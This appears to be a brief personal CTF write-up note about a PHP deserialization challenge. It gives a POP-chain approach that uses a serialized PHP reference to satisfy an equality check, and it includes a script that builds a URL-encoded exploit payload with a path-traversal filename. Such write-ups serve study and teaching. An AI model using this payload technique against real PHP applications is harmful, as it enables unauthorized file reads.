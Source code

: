 tags:: [[CTF/PHP/反序列化]]

- # 思路
	- pop
	- 利用指针将nova指向neutron即可
		- ((6478aaed-0cfc-41e3-a12e-55de79af3104))
	- ```
	  acp:: __toString
	  ace:: echo_name
	  	acp -->
	  	if($this->openstack->neutron === $this->openstack->nova)
	  ```
	- ```php
	  $payload = "../../../../../../nssctfasdasdflag";
	  $o3 = new acp();
	  $o3 -> neutron = "";
	  $o3 -> nova = "novaishere";
	  $ser_o3 = serialize($o3);
	  $ser_o3 = str_replace('s:10:"novaishere"', 'R:2;', $ser_o3);
	  $o2 = new ace();
	  $o2 -> docker = $ser_o3;
	  $o2 -> filename = $payload;
	  $o1 = new acp();
	  $o1 -> setcinder($o2);
	  $ser = serialize($o1);
	  var_dump($ser);
	  echo "<br>";
	  echo urlencode($ser);
	  ```